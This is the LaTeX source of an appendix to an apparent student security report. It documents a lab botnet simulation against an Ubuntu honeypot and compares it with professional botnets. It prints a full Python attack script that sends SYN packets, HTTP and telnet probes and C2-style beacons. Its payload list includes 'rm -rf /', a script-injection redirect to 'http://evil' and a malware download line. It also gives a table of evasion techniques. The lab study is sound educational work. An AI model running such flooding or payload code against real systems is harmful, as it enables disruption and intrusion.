% \label{fig:custom-attack-tikz}
% \end{figure}

% \subsection*{TikZ Diagram: Professional Botnet}
% \begin{figure}[h!]
% \centering
% \begin{tikzpicture}[node distance=2.5cm, every node/.style={font=\small},
%     peer/.style={rectangle, draw=black, fill=blue!10, minimum width=2cm, minimum height=0.8cm},
%     server/.style={rectangle, draw=black, fill=orange!20, minimum width=2.7cm, minimum height=1cm},
%     cloud/.style={ellipse, draw=black, fill=gray!20, minimum width=2.4cm}]

%     \node[peer] (bot1) {Bot 1};
%     \node[peer, right=of bot1] (bot2) {Bot 2};
%     \node[peer, right=of bot2] (bot3) {Bot 100000};

%     \node[cloud, below=of bot2] (internet) {Internet};
%     \node[server, below=of internet] (c2) {C2 Server / Telegram API};
%     \node[server, right=of c2] (target) {Victim (Honeypot)};

%     \draw[<->, thick, dashed] (bot1) -- (bot2);
%     \draw[<->, thick, dashed] (bot2) -- node[above]{$\ldots$ upto} (bot3);
%     \draw[->, thick] (bot1) -- (internet);
%     \draw[->, thick] (bot2) -- (internet);
%     \draw[->, thick] (bot3) -- (internet);

%     \draw[->, thick] (internet) -- node[right]{TLS/QUIC/Stego Payload} (c2);
%     \draw[->, thick] (c2) -- node[above]{Polymorphic Code} (target);
%     \draw[->, thick] (c2) -- node[below]{Beaconing} (target);
% \end{tikzpicture}
% \caption{Peer-to-Peer Botnet with Encrypted C2 Infrastructure}
% \label{fig:pro-botnet-tikz}
% \end{figure}

\newpage \section*{Appendix C: Attack Orchestration and Comparative Analysis}
\addcontentsline{toc}{section}{Appendix C: Attack Orchestration and Comparative Analysis}

% ----------------------------------------------------------------------
% Overview and Environment Setup
% ----------------------------------------------------------------------
\subsection*{Overview of the Attack Scenario and Environment}
\noindent
In this experiment, a simulated botnet attack was launched from a Kali Linux Docker VM and a Macbook Air against a honeypot listener operating on an Ubuntu system. The attacker used a combination of custom TCP payloads and high-frequency flooding techniques (e.g., via \texttt{hping3 --flood}) to overload the honeypot service listening on TCP port 4444. The orchestration of the attack was captured through various screenshots, logs, and code execution outputs.

\subsubsection*{Kali Linux Docker VM Environment}
The Kali Linux Docker VM was configured with multiple network interfaces. The network configuration of the VM is shown below.
\begin{lstlisting}[language=text, caption={Kali Linux Docker VM ifconfig Output}, label={lst:ifconfig}]
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 65535
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether ba:98:78:8d:15:06  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 65535
        inet 192.168.65.3  netmask 255.255.255.0  broadcast 192.168.65.255
        inet6 fdc4:f303:9324::3  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::a452:27ff:fed0:f8aa  prefixlen 64  scopeid 0x20<link>
        ether a6:52:27:d0:f8:aa  txqueuelen 1000  (Ethernet)
        RX packets 2025  bytes 21322105 (20.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1160  bytes 237095 (231.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2  bytes 140 (140.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 140 (140.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

services1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.65.6  netmask 255.255.255.255  broadcast 0.0.0.0
        inet6 fdc4:f303:9324::6  prefixlen 128  scopeid 0x0<global>
        inet6 fe80::c053:91ff:fee5:7e8f  prefixlen 64  scopeid 0x20<link>
        ether c2:53:91:e5:7e:8f  txqueuelen 0  (Ethernet)
        RX packets 729  bytes 204936 (200.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 868  bytes 73107 (71.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
\end{lstlisting}
\newpage 
\subsubsection*{Network Topology}
The network topology used for the attack is illustrated in Figure 2 which specifies the attacker and the honeypot (victim) IP addresses:
\begin{figure}[h!]
    \centering
    \includegraphics[width=0.7\textwidth]{ip_address.pdf}  % ip_address.pdf shows the mapping of Attacker and Honeypot
    \caption{IP Address Mapping for the Attacker and Honeypot}
    \label{fig:ip_mapping}
\end{figure}

% ----------------------------------------------------------------------
% Listener and Attack Code Integration
% ----------------------------------------------------------------------
\subsection*{Implementation Details and Chronological Execution}

\subsubsection*{1. Honeypot Listener Setup}
The honeypot service was implemented using a Python script that listens on TCP port 4444. The code snippet below (Listing~\ref{lst:listener}) shows the listener's implementation. It accepts connections, processes incoming payloads, and manages socket states.
\begin{lstlisting}[language=python, caption={Honeypot Listener Code (\texttt{listener\_4444.py})}, label={lst:listener}]
import socket
import threading
import time

host = '0.0.0.0'
port = 4444

def handle_client(conn, addr):
    print(f"[+] Connection from {addr}")
    try:
        data = conn.recv(1024)
        if data:
            print(f"[>] Payload: {data[:80]!r}")
        time.sleep(20)
    except Exception as e:
        print(f"[!] Error from {addr}: {e}")
    finally:
        conn.close()
        print(f"[-] Closed connection from {addr}")

s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((host, port))
s.listen(29)

print(f"[*] Listening on port {port}...")

try:
    while True:
        conn, addr = s.accept()
        t = threading.Thread(target=handle_client, args=(conn, addr))
        t.daemon = True
        t.start()
except KeyboardInterrupt:
    print("\n[*] Exiting.")
    s.close()
\end{lstlisting}

\subsubsection*{2. Attack Execution Script}
The attack was orchestrated using a comprehensive Python script that simulates multiple attack vectors (TCP/UDP connections, SYN floods via Scapy, HTTP requests via \texttt{curl}, telnet attempts, and custom payload delivery). The script also simulates C2-style beaconing. See Listing~\ref{lst:attack} for the complete implementation.
\begin{lstlisting}[language=python, caption={Attack Execution Code (\texttt{attack.py})}, label={lst:attack}]
import socket
import subprocess
import time
from random import choice
from scapy.all import IP, TCP, UDP, Raw, send

# Target honeypot
TARGET_IP = "192.168.110.213"
ATTACK_PORT = 4444

# Simulated C2/malware-style payloads
ATTACK_PAYLOADS = [
    b"GET /cgi-bin/backdoor.sh HTTP/1.1\r\nHost: malware\r\n\r\n",
    b"POST /login HTTP/1.1\r\nHost: evil\r\nContent-Length: 35\r\n\r\nusername=admin&password=hackme",
    b"cmd=upload&token=rat1337",
    b"rm -rf / --force",
    b"<script>document.location='http://evil';</script>",
    b"heartbeat=alive&bot_id=xyz123",
    b"download http://192.168.110.213/malware.exe",
]

def connect_tcp(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        s.connect((ip, port))
        s.close()
        print(f"[+] TCP connection to {ip}:{port} succeeded")
    except:
        print(f"[-] TCP connection to {ip}:{port} failed (expected)")

def connect_udp(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.sendto(b"udp_test_payload", (ip, port))
        s.close()
        print(f"[+] UDP datagram sent to {ip}:{port}")
    except:
        print(f"[-] UDP send to {ip}:{port} failed")

def scapy_tcp_syn(ip, port):
    pkt = IP(dst=ip)/TCP(dport=port, flags="S")
    send(pkt, count=1, verbose=0)
    print(f"[+] Scapy TCP SYN sent to {ip}:{port}")

def scapy_udp(ip, port):
    pkt = IP(dst=ip)/UDP(dport=port)/Raw(load="scapy_payload")
    send(pkt, count=1, verbose=0)
    print(f"[+] Scapy UDP packet sent to {ip}:{port}")

def curl_http(ip, port, payload):
    try:
        subprocess.run(
            ["curl", "-X", "POST", f"http://{ip}:{port}/", "--data", payload.decode(errors="ignore")],
            timeout=3,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL
        )
        print(f"[+] curl POST to {ip}:{port} with payload")
    except Exception as e:
        print(f"[-] curl to {ip}:{port} failed: {e}")

def telnet_attempt(ip, port):
    try:
        subprocess.run(
            ["telnet", ip, str(port)],
            input=b"ping_botnet\n",
            timeout=2,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL
        )
        print(f"[+] telnet connection attempt to {ip}:{port}")
    except Exception as e:
        print(f"[-] telnet to {ip}:{port} failed (expected): {e}")

def send_attack_payload(ip, port, payload):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect((ip, port))
        s.send(payload)
        print(f"[+] Sent C2-style payload to {ip}:{port}: {payload[:30]}...")
        s.close()
    except Exception as e:
        print(f"[-] Failed to send attack payload to {ip}:{port}: {e}")

def simulate_beaconing(ip, port, interval=5, count=5):
    print(f"[+] Simulating C2 beaconing to {ip}:{port}")
    for i in range(count):
        payload = b"heartbeat=alive&bot_id=bot" + str(i).encode()
        send_attack_payload(ip, port, payload)
        time.sleep(interval)

def main():
    print("[*] Launching all attack types to port 4444 only\n")
    for _ in range(5):
        payload = choice(ATTACK_PAYLOADS)
        connect_tcp(TARGET_IP, ATTACK_PORT)
        connect_udp(TARGET_IP, ATTACK_PORT)
        scapy_tcp_syn(TARGET_IP, ATTACK_PORT)
        scapy_udp(TARGET_IP, ATTACK_PORT)
        curl_http(TARGET_IP, ATTACK_PORT, payload)
        telnet_attempt(TARGET_IP, ATTACK_PORT)
        send_attack_payload(TARGET_IP, ATTACK_PORT, payload)
        time.sleep(1)

    simulate_beaconing(TARGET_IP, ATTACK_PORT)

    print("\n[+] All attacks sent to port 4444. On the honeypot, run:")
    print("    sudo lsof -i TCP:4444 -n -P | grep ESTABLISHED")
    print("    sudo tcpdump -nnX port 4444")

if __name__ == "__main__":
    main()

\end{lstlisting}
\clearpage

% ----------------------------------------------------------------------
% Comparative Analysis Tables
% ----------------------------------------------------------------------
\subsection*{Comparative Analysis of Attack Techniques}
\subsubsection*{Table 1: Custom Botnet Attack vs Professional Botnet}
\begin{table}[h!]
\centering
\renewcommand{\arraystretch}{1.4}
\begin{tabular}{|p{4.2cm}|p{5.5cm}|p{5.5cm}|}
\hline
\rowcolor{blue!15}
\textbf{Feature} & \textbf{My Custom Attack} & \textbf{Professional Botnet} \\
\hline
\textbf{Payload Delivery} & Fixed, hardcoded payloads (e.g., \texttt{rm -rf}, \texttt{heartbeat=alive}) via raw TCP & Encrypted, polymorphic payloads that adapt per target \\
\hline
\textbf{C2 Communication} & Centralized, static IP/port (192.168.110.213:4444) & Dynamic C2: peer-to-peer, domain generation algorithms (DGA), or social media steganography \\
\hline
\textbf{Flooding Tool} & High-volume SYN packets via \texttt{hping3 --flood} & Throttled, stealthy traffic mimicking user behavior (HTTP/TLS/QUIC) \\
\hline
\textbf{Persistence} & None; no post-infection survival & Crontab, systemd, registry edits, and rootkits for long-term presence \\
\hline
\textbf{Kernel Detection} & Flooding causes kernel to \texttt{kill -9} due to resource exhaustion & Memory-resident malware, process hollowing, sandbox detection to avoid kernel scrutiny \\
\hline
\textbf{Listener Behavior} & Custom socket-based listener with fixed thread pool & Dynamic service injection and stealthy socket hijacking \\
\hline
\textbf{Packet Obfuscation} & Clear-text TCP payloads & TLS encryption, DNS tunneling, or covert channel techniques \\
\hline
\textbf{Entry Vector} & Manual deployment, requires listener on target & Exploits open services like SSH, RDP, or web servers; no manual setup needed \\
\hline
\textbf{Outbound Beaconing} & Bots push traffic to static listener over LAN & Encrypted outbound beaconing (e.g., HTTPS, DNS, Telegram API) \\
\hline
\textbf{Reverse Shell} & Not implemented; relies on raw sockets & Reverse shells with privilege escalation and polymorphic callbacks \\
\hline
\textbf{Traffic Visibility} & Easy to inspect; raw TCP data is clear-text & Encrypted and obfuscated to mimic normal web or app traffic \\
\hline
\textbf{Persistence Mechanism} & None; scripts run until killed & Full system persistence through service registration, hidden jobs, or rootkits \\
\hline
\textbf{Stealth} & Loud, obvious; visible in netstat and top & Designed to evade AV, IDS/IPS, and sandbox environments \\
\hline
\textbf{Environment Awareness} & Runs in any Docker/VM blindly & Detects virtualization, disables itself in analysis environments \\
\hline
\end{tabular}
\caption{Differences Between Custom Botnet Attack and Professional Botnets}
\label{tab:comparison}
\end{table}
\clearpage
\subsubsection*{Table 2: Evasion Techniques Used by Advanced Botnets}
\begin{table}[h!]
\centering
\renewcommand{\arraystretch}{1.4}
\begin{tabular}{|p{5cm}|p{9.5cm}|}
\hline
\rowcolor{blue!15}
\textbf{Technique} & \textbf{Description and Purpose} \\
\hline
\textbf{Process Hollowing} & Injects malicious code into legitimate processes to evade detection by AV or kernel monitors \\
\hline
\textbf{Fileless Execution} & Uses PowerShell, WMI, or /dev/shm on Linux to execute without ever writing to disk \\
\hline
\textbf{Sandbox Detection} & Detects virtual environments using CPU ID, MAC address, or timing attacks; exits silently if found \\
\hline
\textbf{Dynamic Sleep Delays} & Waits for minutes/hours before executing payload to bypass heuristics and sandbox triggers \\
\hline
\textbf{Traffic Shaping} & Mimics user browsing behavior and uses TLS/QUIC protocols to hide C2 traffic \\
\hline
\textbf{Rootkits and Kernel Modules} & Loadable modules on Linux (or drivers on Windows) that hide files, processes, and sockets \\
\hline
\textbf{Self-Mutating Code} & Changes its own binary signature at runtime to evade signature-based detection \\
\hline
\end{tabular}
\caption{Evasion Tactics Used by Advanced Botnets}
\label{tab:evasion}
\end{table}

% ----------------------------------------------------------------------
% Visual Illustrations: TikZ Diagrams
% ----------------------------------------------------------------------
\subsection*{Visual Illustrations of Attack Architecture}

\subsubsection*{TikZ Diagram: My Custom Attack}
\begin{tcolorbox}[
    colback=backcolor!5!white,
    colframe=red!100!black,
    title={My attack diagram},
    fonttitle=\bfseries\large\centering,
    arc=4mm,
    boxrule=1pt,
    enhanced
]
% \begin{figure}[h!]

\begin{tikzpicture}[node distance=2.5cm, every node/.style={font=\small},
    device/.style={rectangle, draw=black, fill=blue!15, minimum width=2.5cm, minimum height=1cm},
    cloud/.style={ellipse, draw=black, fill=gray!20, minimum width=2cm}]
    \node[device] (attacker) {Kali linux attacker (Bot1)};
    \node[device, below=of attacker] (attacker2) {MacOS attacker (Bot2)};
    \node[cloud, right=of attacker] (internet) {LAN/Bridge};
    \node[device, right=of internet] (honeypot) {Ubuntu Honeypot};
    \draw[->, thick] (attacker) -- node[above]{SYN Flood} (internet);
    \draw[->, thick] (attacker) -- node[below]{TCP Payloads} (internet);
    \draw[->, thick] (attacker2) -- node[left]{C2 beacon} (internet);
    \draw[->, thick] (attacker2) -- node[right]{Telnet Attempts} (internet);
    \draw[->, thick] (internet) -- node[above]{transmits} (honeypot);
\end{tikzpicture}
% \caption{Basic Custom Botnet Flooding to Static Target}
% \label{fig:custom-attack-tikz}
% \end{figure}
\end{tcolorbox}
\clearpage
\subsubsection*{TikZ Diagram: Professional Botnet}
\begin{tcolorbox}[
    colback=backcolor!5!white,
    colframe=red!100!black,
    title={Professional Attack Architecture},
    fonttitle=\bfseries\large\centering,
    arc=4mm,
    boxrule=1pt,
    enhanced
]
% \begin{figure}[h!]

\begin{tikzpicture}[node distance=2.5cm, every node/.style={font=\small},
    peer/.style={rectangle, draw=black, fill=blue!10, minimum width=2cm, minimum height=0.8cm},
    server/.style={rectangle, draw=black, fill=orange!20, minimum width=2.7cm, minimum height=1cm},
    cloud/.style={ellipse, draw=black, fill=gray!20, minimum width=2.4cm}]
    \node[peer] (bot1) {Bot 1};
    \node[peer, right=of bot1] (bot2) {Bot 2};
    \node[peer, right=of bot2] (bot3) {Bot 100000};
    \node[cloud, below=of bot2] (internet) {Internet};
    \node[server, below=of internet] (c2) {C2 Server / Telegram API};
    \node[server, right=of c2] (target) {Victim (Honeypot)};
    \draw[<->, thick, dashed] (bot1) -- (bot2);
    \draw[<->, thick, dashed] (bot2) -- node[above]{$\ldots$ upto} (bot3);
    \draw[->, thick] (bot1) -- (internet);
    \draw[->, thick] (bot2) -- (internet);
    \draw[->, thick] (bot3) -- (internet);
    \draw[->, thick] (internet) -- node[right]{TLS/QUIC/Stego Payload} (c2);
    \draw[->, thick] (c2) -- node[above]{Polymorphic Code} (target);
    \draw[->, thick] (c2) -- node[below]{Beaconing} (target);
\end{tikzpicture}
% \caption{Peer-to-Peer Botnet with Encrypted C2 Infrastructure}
% \label{fig:pro-botnet-tikz}
% \end{figure}
\end{tcolorbox}
% ----------------------------------------------------------------------
% Conclusion of the Chronological Narrative
% ----------------------------------------------------------------------
\subsection*{Chronological Narrative Summary}
The attack orchestration followed these key steps:
\begin{enumerate}
    \item \textbf{Preparation:} The Kali Linux Docker VM was set up with the necessary network configuration (see ifconfig output) and its IP address mapping established (Figure~\ref{fig:ip_mapping}).
    \item \textbf{Listener Initialization:} The honeypot listener (\texttt{listener\_4444.py}, Listing~\ref{lst:listener}) was deployed on the Ubuntu system to monitor TCP port 4444.
    \item \textbf{Attack Deployment:} The attack script (\texttt{attack.py}, Listing~\ref{lst:attack}) was executed from the attacker VM, launching multiple vectors (TCP/UDP connections, SYN floods, HTTP requests, telnet attempts, and custom payload delivery) against the honeypot.
    \item \textbf{Beaconing Simulation:} The script then simulated C2 beaconing to emulate persistent botnet behavior.
    \item \textbf{Monitoring and Logging:} Throughout the attack, detailed logs and network captures were obtained (screenshots of attack execution, listener activity, and network traffic via \texttt{lsof} and \texttt{tcpdump}).
    \item \textbf{Comparative Analysis:} The subsequent tables and diagrams compare the custom attack with professional botnet techniques and outline advanced evasion methods.
\end{enumerate}

Appendix C not only illustrates the technical implementation but also provides a detailed comparative analysis between a basic custom attack and a sophisticated professional botnet, underscoring the evolution of cyberattack methodologies.


\clearpage
\nocite{*}
\printbibliography[heading=bibintoc,title={References}]
\end{document}
